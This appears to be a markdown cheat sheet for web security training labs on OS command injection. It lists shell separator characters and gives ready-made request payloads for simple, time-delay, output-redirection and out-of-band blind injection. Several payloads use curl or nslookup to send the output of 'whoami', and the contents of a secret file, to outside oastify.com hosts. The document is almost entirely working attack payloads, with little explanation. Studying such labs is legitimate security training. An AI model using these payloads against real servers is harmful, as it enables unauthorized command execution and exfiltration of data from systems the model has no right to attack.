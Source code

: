 ____

The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```


```bash
email=carlos@exam.net||curl+`whoami`.OASTIFY.COM||
```

```bash
||$(curl $(cat /home/carlos/secret).OASTIFY.COM)||
```

https://www.youtube.com/watch?v=o7oVWXw4t5E

# OS command injection, simple case

```bash
productId=3&storeId=1;whoami
```

# Blind OS command injection with time delays

```bash
csrf=MHUzDCRAmx3TG1QrDY2ZLHl2jHKiuHJg&name=test&email=test%40test.com||sleep+10||&subject=test&message=test
```

```bash
email=carlos@exam.net||curl+`whoami`.ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||
```

# Blind OS command injection with output redirection

```bash
csrf=hEZE4kGjoO0LidGJeSWj0GP6kZ6U8VlG&name=test&email=test%40test.com||whoami+>>+/var/www/images/test.txt||&subject=test&message=test
```

# Blind OS command injection with out-of-band interaction

```bash
csrf=JLmVMicftPWmhmy9AjLiFpbrbbTC5mQo&name=test&email=test%40test.com||nslookup+ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||&subject=test&message=test
```
## Blind OS command injection with out-of-band data exfiltration

```bash
csrf=tKGQKD6nVDuEr54nbuAfSdjsVrtIIK6N&name=test&email=test%40test.com||curl+`whoami`.z338sbcmd3onehr0t7l0b92ytpzfn4.oastify.com||&subject=test&message=test
```


